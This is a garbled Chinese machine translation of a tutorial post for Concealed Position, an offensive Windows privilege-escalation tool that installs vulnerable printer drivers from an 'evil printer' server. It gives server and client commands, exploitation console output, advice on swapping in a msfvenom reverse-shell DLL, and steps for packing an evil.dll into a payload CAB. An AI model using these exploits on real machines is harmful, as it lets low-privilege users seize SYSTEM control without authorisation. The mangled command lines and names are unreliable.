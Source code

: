 # 隐蔽位置:自带打印驱动程序权限提升工具

> 原文：<https://kalilinuxtutorials.com/concealed-position/>

[![](img/1b5c4e156aef77796826ca4abf3b1ba9.png)](https://1.bp.blogspot.com/-vnsCV6uRFuw/YUnKhdrP9MI/AAAAAAAAK5w/V3CaoDmz14YZIErlSFSC5CBR0IZoNCCEACLcBGAsYHQ/s679/printer_hack.png)

**隐藏位置**是利用“自带漏洞”的概念对 Windows 进行的本地权限提升攻击。具体来说，隐藏位置(CP)使用 Windows 中设计的*封装点和打印逻辑，允许低权限用户暂存和安装打印机驱动程序。CP 专门安装具有已知漏洞的驱动程序，然后利用这些漏洞升级到系统。隐蔽阵地首次出现在 DEF CON 29 上。*

**有哪些功勋可用**

隐蔽位置提供了四个漏洞——都有同样愚蠢的名字:

*   酸性损害–CVE-2021-35449–利盟通用打印驱动程序 LPE
*   辐射损坏–CVE-2021-38085–佳能 TR150 打印驱动程序 LPE
*   中毒损害–CVE-2019-19363–理光 PCL6 打印驱动程序 LPE
*   削减损坏-CVE-2020-1300-Windows 打印假脱机系统 LPE

这种利用是巧妙的，因为除了削减损害，他们将继续工作，甚至在问题被修补后。Windows 阻止用户使用旧驱动程序的唯一机制是吊销驱动程序的证书——这不是(？)历史上做过。

**但是我该用哪个漏洞利用呢？！**

可能是酸中毒。辐射伤害和中毒伤害是竞争条件(覆盖一个 DLL ),而砍杀伤害，希望在任何地方都能被修补。

**它是如何工作的？**

隐蔽位置有两部分。一个邪恶的印刷商和一个客户。客户端访问服务器，获取驱动程序，将驱动程序存储在驱动程序存储中，安装打印机，并利用安装过程。轻松点。用 MSAPI 的话说，攻击是这样的:

**步骤 1:将驱动程序存放在驱动程序存储中
客户端到服务器:GetPrinterDriver
服务器到客户端:用驱动程序响应
阶段 2:从驱动程序存储中安装驱动程序
客户端:InstallPrinterDriverFromPackage
阶段 3:添加本地打印机(开发阶段)
客户端:添加打印机**

重要的是要注意，削减损坏实际上并不是这样工作的。SLASHINGDAMAGE 是 DEFCON 28 (2020)中描述的邪恶打印机攻击的一种实现，早就打了补丁。我只是碰巧喜欢这次攻击(它引发了本开发的其余部分),并认为我应该把这个漏洞留在我邪恶的服务器上……尽管这可能会令人困惑。

**这是 Windows 漏洞吗？**

可以说，是的。驱动程序存储是“第三方驱动程序包的可信集合”，需要管理员访问才能修改。使用`**GetPrinterDriver**`,低特权攻击者可以将任意驱动程序放入商店。对我来说，这跨越了明显的安全界限。

当他们发布 CVE-2021-34481 时，微软似乎同意了。

虽然…这只是系统的一个特征，而不是一个漏洞，这是有争议的。真的没那么重要。攻击者可以升级到标准 Windows 安装上的系统。

CVE-2021-34481 影响了 Windows 的哪些版本？

至少 Windows 8.1 及以上。

**我如何使用这些工具？**

简单！简单到会有很多段落来描述它！

**CP 服务器**

首先，让我们看看 cp_server 的命令行选项:

**C:\ Users \ albino lobster \ hidden _ position \ build \ x64 \ Release \ bin>CP _ server . exe
*_* *|
|*|*|* ****|||
|*|*|
|*|*|*|*|*|*|*|*| *CLI 选项:
-h，–help 显示帮助消息
-e，–exploit arg 漏洞利用要使用
-c，–cabs arg(=。\ cab _ files)cab 文件的位置
漏洞可用:
酸伤害
中毒伤害
辐射伤害
砍伤伤害
C:\ Users \ albino lo*********bster \ hidden _ position \ build \ x64 \ Release \ bin>

上面你可以看到服务器需要两个选项:

*   为其配置打印机的漏洞
*   此存储库 cab_files(.\cab_files\是默认值)

例如，假设我们想要配置一个邪恶的打印机来提供 ACIDDAMAGE 驱动程序。只要这样做:

**C:\ Users \ albino lobster \ hidden _ position \ build \ x64 \ Release \ bin>CP _ server . exe-e acid damage
*_* **|*|||*|*|*|*|*|*|*|*|*|
_*_
|
| || || |
|*|*|
|*|*|*|*|*|*|*|*|*
[+]创建临时空间……
[+]扩展。\ cab _ files \ acid damage \ lmud1 o 40 . cab
[+]推入驱动存储
[+]清理 tmp 空间
[+]安装打印驱动
[+]驱动安装完毕！
[+]安装共享打印机
[+]共享打印机已安装！
[+]自动化完成。
【！]重要的手动步骤！
[0]在高级共享设置中，关闭密码保护共享。
【1】蓄势待发！
C:\ Users \白化龙虾\ hidden _ position \ build \ x64 \ Release \ bin>****

 *就这样，您会在系统上看到一台新的打印机:

**PS C:\ Users \ albino lobster \ hidden _ position \ build \ x64 \ Release \ bin>Get-Printer
Name computer Name Type driver Name port Name 共享发布
d
————————————————————————————
acid damage Local Lexmark Universal v2 LPT 1:True False
cute pdf Writer Local cute pdf Writer v 4.0 CP w4:False False
OneNote for Windows 10 Local Microsoft Software Pri…of…False False
Microsoft XPS Document Writer Local Microsoft XPS Document…port prompt:False False False
Microsoft Print To PDF Local Microsoft Print To PDF port prompt:False False False
Fax Local Microsoft Shared Fax D…SHR Fax:False False
PS C:\ Users \ albino lobster \ hidden _ position \ build \ x64 \ Release \ bin>**

请注意，有一个手动步骤`**cp_server**`会提示您去做。因为我是一个垃圾黑客，我不知道如何通过编程来设置“高级共享设置”——>“关闭密码保护的共享”。你必须自己做那件事！

使用`**SLASHINGDAMAGE**`的过程略有不同。您需要首先安装 CutePDF Writer(在第三方目录中找到安装程序)。然后运行 cp_server 和*然后*你仍然需要遵循几个手动步骤并重启。

**CP 客户端**

客户端同样易于使用。让我们看看它的命令行选项:

**C:\ Users \ albino lobster \ hidden _ position \ build \ x64 \ Release \ bin>CP _ client . exe
*_* *|
|*|*|* ****|||
|*|*|
|*|*|*|*|*|*|*|*| *CLI 选项:
-h，–帮助显示帮助消息
-r，–rhost arg 远程邪恶打印机地址
-n，–name arg 远程邪恶打印机名称
-e，–exploit arg 利用漏洞使用
-l，–本地无远程打印机。仅限本地攻击。
-d，–用户提供的要执行的 dll 的 DLL 参数路径。
可用攻击:
酸性伤害
中毒伤害
辐射伤害*********

首先，我想谈谈–dll 选项。客户端有一个嵌入的有效负载，它将简单地写入 C:\result.txt 文件。但是，用户可以通过此选项提供自己的 DLL。msfvenom 生产的 x64 reverse shell 就是一个很好的例子。但是在剩下的时间里，我们只假设嵌入的有效载荷。

`**cp_client**`有两种模式:远程和本地。远程选项是最有趣的，因为它将易受攻击的驱动程序添加到驱动程序存储中(从而执行自带打印驱动程序漏洞)，所以我们将首先使用它。假设我想连接回我们之前配置的 evil ACIDDAMAGE 打印机。我只需要提供:

*   我想利用的漏洞
*   邪恶的打印机 IP 地址
*   邪恶共享打印机的名称

像这样！

**C:\ Users \ albino lobster \ Desktop>CP _ client . exe-r 10 . 0 . 0 . 9-n acid damage-e acid damage
*_* *|
|* ||*|*| | | | | | | | | || _ | || |*|*|*|*|*|*|*|
_*_
|
*|*|||
|*|*|
|*|
|*|*|*|*| *[+]检查驱动程序是否已经安装
[-]驱动程序不可用。
[+]回调到 evil printer @ \ 10 . 0 . 0 . 9 \ acid damage
[+]驱动程序存储中的登台驱动程序
[+]安装登台驱动程序
[+]驱动程序已安装！
[+]起始酸损坏
[+]检查 C:\ program data \ Lexmark Universal v2 \是否存在
[-]目标目录不存在。触发安装。
[+]安装打印机
[+]读入 C:\ program data \ Lexmark Universal v2 \ Universal Color laser . gdl
[+]搜索文件内容
[+]更新文件内容
[+]删除更新的 gpl
[+]删除 Dll.dll 到磁盘
[+]暂存 c:\tmp
[+]安装打印机
[！祝你成功！****

就是这样！要执行仅本地攻击，您只需提供以下漏洞:

**C:\ Users \ albino lobster \ hidden _ position \ build \ x64 \ Release \ bin>CP _ client . exe-l-e acid damage
*_* *|
|*|*|* *|*|||*|*|*|*|*|*|*|*|*|
_*_
|
| || || |
|*|*|
|*|*|*|*|*|*|*|*|*
[+]检查驱动程序是否已经安装
[+]驱动程序已安装！
[+]起始酸损坏
[+]检查 C:\ program data \ Lexmark Universal v2 \是否存在
[-]目标目录不存在。触发安装。
[+]安装打印机
[+]读入 C:\ program data \ Lexmark Universal v2 \ Universal Color laser . gdl
[+]搜索文件内容
[+]更新文件内容
[+]丢弃更新的 gpl
[+]将 Dll.dll 放到磁盘
[+]暂存 c:\tmp
[+]安装打印机
[！祝你成功！
C:\ Users \白化龙虾\ hidden _ position \ build \ x64 \ Release \ bin>***

**为什么客户端没有 SLASHINGDAMAGE 选项？**

不需要特殊的客户端进行开发。您可以只使用用户界面或命令行连接到远程打印机，就是这样！不幸的是，如果您想滚动一个定制的有效负载，您需要更新 cab_files 目录中的 CAB。但那很简单。大概是这样的:

**echo "evil.dll " "../../evil . dll ">files . txt
make cab/f files . txt
move disk 1/1 . cab exploit . cab**

知道回购中的版本`**SLASHINGDAMAGE**`将 ualapi.dll 放入 SYSTEM32，并且当在重启时执行时，它会放入 C:\result.txt 文件可能很重要。

**拉请求和 bug**

是提交拉取请求还是归档 bug？太好了！我很感激，但是如果你没有提供足够的细节来重现一个错误或者解释为什么一个拉请求应该被接受，那么有 100%的机会我会关闭你的问题而不做任何评论。我很感激你，但是我也很忙。

**其他事情**

需要注意的一点是，inject_me dll 实际上是作为 C 数组嵌入 cp_client 的。如果更新 inject_me，您还需要手动更新 C 数组(只需使用 xxd 来生成数组)。

[**Download**](https://github.com/jacob-baines/concealed_position)*